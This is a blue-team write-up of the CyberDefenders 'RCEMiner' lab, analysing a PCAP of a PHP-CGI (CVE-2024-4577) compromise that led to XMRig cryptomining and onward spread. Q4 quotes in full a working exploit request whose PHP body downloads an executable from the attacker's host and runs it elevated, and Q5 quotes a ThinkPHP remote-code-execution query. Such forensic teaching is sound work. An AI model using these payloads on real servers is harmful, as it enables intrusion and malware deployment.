#network-forensics #cyberdefender-medium #wireshark #finished #reviewed #CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender

# Scenario
Over the past 24 hours, the IT department has noticed a drastic increase in CPU and memory usage on several publicly accessible servers. Initial assessments indicate that the spike may be linked to unauthorized crypto-mining activities. Your team has been provided with a network capture (PCAP) file from the affected servers for analysis.

Analyze the provided PCAP file using the network analysis tools available to you. Your goal is to identify how the attacker gained access and what actions they took on the compromised server.

## Q1 — Vulnerability that was exploited
>To identify the entry point of the attack and prevent similar breaches in the future, it's crucial to recognize the vulnerability that was exploited and the method used by the attacker to execute unauthorized commands. Which vulnerability was exploited to gain initial access to the public webserver?

**Approach:** Check conversation statistics for anomalous IPs, filter HTTP traffic on the web server, then follow suspicious POST streams to identify the exploit.

To get us started we can check `Statistics > Conversations > IPv4`.
The intuition is that we want to check if there are IP addresses which an anomalous amount of traffic flowing between them.



*Output of conversation statistics sorted by packets descending*

We can see a few interesting IPs
- `36.96.48.3`
- `1.80.23.4`

`36.96.48.3` is interesting because it appears in the most the conversations, it might be the web server IP.
Furthermore, in the conversation with the most traffic capture, we will see that `1.80.23.4` sends more packets to `36.96.48.3` than it is receiving by more than two fold.
Let's try checking the HTTP traffic of `36.96.48.3` see if we discover anything interesting.



*HTTP traffic of `36.96.48.3`*

What immediately stands out to me is frame number `58` as it looks like a malicious POST request made to `36.96.48.3`.
If we follow the HTTP stream we will find the following,



*HTTP stream of malicious POST*

In the body we can see a `php` script that grabs a resource from `http://1.80.23.4:8000/` using `curl`.
Furthermore, the way they get the server to even execute this script in the first place is through specially crafted URL query parameters.
If we research into this specific string, we will find that this is a `PHP CGI Argument Injection exploit` identified as `CVE-2024-4577`.
The way it works is that since, the query parameter does not contain a literal `=`, the web server running PHP in CGI mode passes the entire query string directly as command-line arguments to the PHP binary.

Therefore, it will be parsed as

```
php -d allow_url_include=1 -d auto_prepend_file=php://input index.php
```

What this does is that it causes the code in the POST body to execute first before `index.php`.
Therefore, downloading the malicious file onto the server.
Also note that the source IP making this request is `58.16.30.23`

**Answer:** `CVE-2024-4577`

---

## Q2 — Soft Hyphen Unicode Bypass
>A specific Unicode character is used in the exploit to manipulate how the server interprets command-line arguments, bypassing the standard input handling. What is the Unicode code point of this character?

The attacker here uses a soft hyphen which has Unicode code point of `U+00AD` or `0xAD`.
This soft hyphen is the key to this entire attack as it is treated as a `-` by vulnerable versions of PHP and bypasses standard input handling rules that block query strings with `-d`.
Therefore, `0xAD` allowed the attacker to bypass the WAF (Web Application Firewall) rules that match on literal `-d` and carry out the attack.

**Answer:** `0xAD`

---

## Q3 — CPU Model from Recon Script
>The attacker executed commands to gather detailed system information, including CPU specifications, after gaining access. What is the exact model of the CPU identified by the attacker's script?

**Approach:** Filter for additional POST requests from the attacker's source IP, extract and decode the PowerShell recon script, then locate the system info exfiltrated back to the C2 server.

We identified in question 1 a malicious POST request being made to `36.96.48.3`.
The source IP for this request was `58.16.30.23`.
Let's filter for other POST requests that this IP may have possibly made by using `ip.src == 58.16.30.23 && http.request.method == "POST"`.



*Output of filter*

If we inspect the POST bodies of frame numbers `216` and `255` we will find the following.

In frame number 216, we will see that he is downloading and executing a PowerShell script named `1.ps1` located in `C:\Windows\Temp\`



*Packet 216*

In frame number 255, we will see that he is downloading and executing an executable with name `2.exe` located in `C:\Windows\Temp`



*Packet 255*

Let's investigate the frames between 216 and 255 to see what was returned to the attacker in this period.
Let's also filter by HTTP and see what we find.



*Filter output*

We can see after the exploit, the server makes a GET request for the malicious PowerShell script.
If we look at frame `224` we can actually extract the script which is the following,



*`1.ps`*

The actual payload is base64 encoded so we need to decode that first.



Which shows us that `1.ps` is used to grab information about system specifications like processor, physical memory and logical disks.
It then outputs this information into `C:\Windows\Temp\1.txt` then sends it to `1.80.23.4:8000` before removing both `1.ps` and `1.txt`.
So now we know what to look for as the information to answer this question will be in the POST request being sent from `36.96.48.3` to `1.80.23.4`.

We can see this request being made with frame number `233`.



*Frame number `233`*

Where if we look in the body we will see information about the server's CPU etc.
Which if we copy and use CyberChef to make it more readable we get,



*`1.txt` contents*

Therefore, the model of the CPU identified is `Intel(R) Core(TM) i7-6700HQ`.

**Answer:** `Intel(R) Core(TM) i7-6700HQ`

---

## Q4 — Command to Start Process with Elevation
>Understanding how malware initiates the execution of downloaded files is crucial for stopping its spread and execution. After downloading the file, the malware executed it with elevated privileges to ensure its operation. What command was used to start the process with elevated permissions?

**Approach:** Inspect the POST body of frame 255, which contains the PowerShell command that downloads and executes the malware with elevated privileges.

We identified in frame number `255` a command to download and run an executable.



*Frame number `255`*

Which is

```
POST /index.php?%ADd+allow_url_include%3D1+-d+auto_prepend_file%3Dphp://input HTTP/1.1
Host: 36.96.48.3
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 216

<?php system('powershell -ExecutionPolicy Bypass -Command "& {Invoke-WebRequest -Uri http://1.80.23.4:8000/2.txt -OutFile C:\Windows\Temp\2.exe; Start-Process C:\Windows\Temp\2.exe -Verb RunAs}"'); ?>;echo 1337; die;
```

If we inspect the command we will see `Start-Process <executable> -Verb RunAs`.
In PowerShell if we pass `-Verb RunAs` to `Start-Process` this causes the process to run with elevated privileges.
Therefore, our answer is `Start-Process C:\Windows\Temp\2.exe -Verb RunAs`

**Answer:** `Start-Process C:\Windows\Temp\2.exe -Verb RunAs`

---

## Q5 — Targeted PHP Framework
>After compromising the server, the malware used it to launch a massive number of HTTP requests containing malicious payloads, attempting to exploit vulnerabilities on additional websites. What vulnerable PHP framework was initially targeted by these outbound attacks from the compromised server?

**Approach:** Filter for outbound HTTP traffic from the compromised server after the initial exploit, then inspect the request paths to identify the targeted framework.

We can look for this traffic by using the filter `ip.src == 36.96.48.3 && http && frame.number > 255`.



*Output of filter*

Which shows us the traffic originating from the compromised web server.
If we inspect the requests being made we will see the string `/think\app` appear regularly.
Doing a Google search of `php think app` gives us resources for `ThinkPHP` framework.
Further digging will find us this article [ThinkPHP Remote Code Execution (RCE) bug is actively being exploited](https://www.sonicwall.com/blog/thinkphp-remote-code-execution-rce-bug-is-actively-being-exploited) which discusses a RCE bug in `ThinkPHP`.
The article discusses how the url query `?s=index/\think\app/invokefunction&function=call_user_func_array&vars=system&vars[]=id_` can be used by threat actors to perform RCE.
This exact same url query is found in our Wireshark output.
Therefore, the answer is `ThinkPHP`

**Answer:** `ThinkPHP`

---

## Q6 — DNS C2 MITRE Sub-technique
>The malware leveraged a common network protocol to facilitate its communication with external servers, blending malicious activities with legitimate traffic. This technique is documented in the MITRE ATT&CK framework. What is the specific sub-technique ID that involves the use of DNS queries for command-and-control purposes?

**Approach:** Look up the MITRE ATT&CK sub-technique for DNS-based C2, then verify by examining DNS traffic from the compromised server.

This question is trivially answered by a quick Google search.



*MITRE ATT&CK Mapping*

Therefore, the answer is `T1071.004`.
However, let's have a look at how the DNS requests the server was making.



*DNS requests being made by `36.96.48.3`*

The domain `auto.c3pool.org` is a Monero (XMR) cryptocurrency mining pool endpoint and is known to be used for malicious activity.
`c3pool` is a global all-in-one mining pool platform that allows users to connect their mining hardware to contribute to the collective effort of mining blocks.

**Answer:** `T1071.004`

---

## Q7 — Full Path of Dropped Malware
>Identifying where the malware could be stored on a compromised system is crucial for ensuring the complete removal of the infection and preventing the malware from being executed again. The compromised server was used to host a malicious file, which was then delivered to other vulnerable websites. What is the full path where this malware was stored after being downloaded from the compromised server?

**Approach:** Inspect the outbound exploit requests from Q5 and URL-decode the query parameters to find the malware drop path.

From `Q5` we can see the GET requests being made to the vulnerable servers by the compromised web server.

If we inspect each of the requests and analyze the payload we can find the answer.

For instance, if we look at the packet below,



*Frame `10151`*

We can see the URI query parameters being set.
One of the query parameters when URL decoded is `C:\ProgramData\spread.exe`.

This is the full path of the malware being stored in the vulnerable servers.

**Answer:** `C:\ProgramData\spread.exe`

---

## Q8 — Exfiltration IP and Port
>Knowing the destination of the data being exfiltrated or reported by the malware helps in tracing the attacker and blocking further communications to malicious servers. The compromised server was used to report system performance metrics back to the attacker. What is the IP address and port number to which this data was sent?

**Approach:** Analyze suspicious DNS requests from the compromised server, resolve the domain via VirusTotal, then filter TCP push-flag traffic to that IP to identify the exfiltration port.

In `Q6`, we touched on how the compromised web server was making suspicious DNS requests. If we analyze those requests, we will find the following,



*Suspicious DNS request*

The compromised web server is making a DNS request to resolve the domain `nishabii.xyz`.
This domain looks highly suspicious.
If we pass this domain to VirusTotal we will see that it is a known domain for malicious activity.



*`nishabii.xyz` VirusTotal report*

Furthermore, this domain resolves to the IP `218.244.58.70`.
Let's investigate the traffic between the compromised web server and this IP.



*Traffic containing IP `218.244.58.70`*

Let's look specifically at the traffic with the push flag set as this is what actually contains the data.



*Filtering only for packets with push flag set*

If we click into any of the packets we will see that the payload looks like metrics of some sort delimited by a `|`.
We can also see the destination port is `9011`.
Therefore, our answer is `218.244.58.70:9011`.

**Answer:** `218.244.58.70:9011`

---

## Q9 — Cryptomining Software and Version
>Identifying the specific cryptomining software used by the attacker allows for better detection and removal of similar threats in the future. The malware deployed specific software to utilize the compromised server's resources for cryptomining. What mining software and version was used?

**Approach:** Resolve the mining pool domain identified in Q6, filter TCP push-flag traffic to that IP, and extract the agent field from the login payload.

In `Q6`, we saw that the compromised web server was making DNS requests to resolve `auto.c3pool.org`.
Let's check what IP this domain resolves to.



*DNS Response for `auto.c3pool.org`*

The domain resolves to `43.129.150.155`.
Let's look at traffic containing this IP address.



*Filtering for traffic*

The traffic is TCP, let's filter for packets containing the push flag to see the actual data.



*TCP traffic with push flag set*

In the payload we see a `json` containing some details.
If we dump this we will get

```
{
   "id":1,
   "jsonrpc":"2.0",
   "method":"login",
   "params":{
      "login":"SN",
      "pass":"1",
      "agent":"XMRig/5.5.0 (Windows NT 10.0; Win64; x64) libuv/1.31.0 msvc/2015",
      "algo":[
         "cn/1",
         "cn/2",
         "cn/r",
         "cn/fast",
         "cn/half",
         "cn/xao",
         "cn/rto",
         "cn/rwz",
         "cn/zls",
         "cn/double",
         "cn/gpu",
         "cn-lite/1",
         "cn-heavy/0",
         "cn-heavy/tube",
         "cn-heavy/xhv",
         "cn-pico",
         "cn-pico/tlo",
         "rx/0",
         "rx/wow",
         "rx/loki",
         "rx/arq",
         "rx/sfx"
      ]
   }
}
```

There is an `agent` field stating `XMRig/5.5.0`.
`XMRig` is an open-source software used to mine cryptocurrencies, primarily Monero (XMR).
Therefore, our answer is `XMRig/5.5.0`.

**Answer:** `XMRig/5.5.0`

---

# Completion



I successfully completed RCEMiner Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/francisvil3213/rceminer/
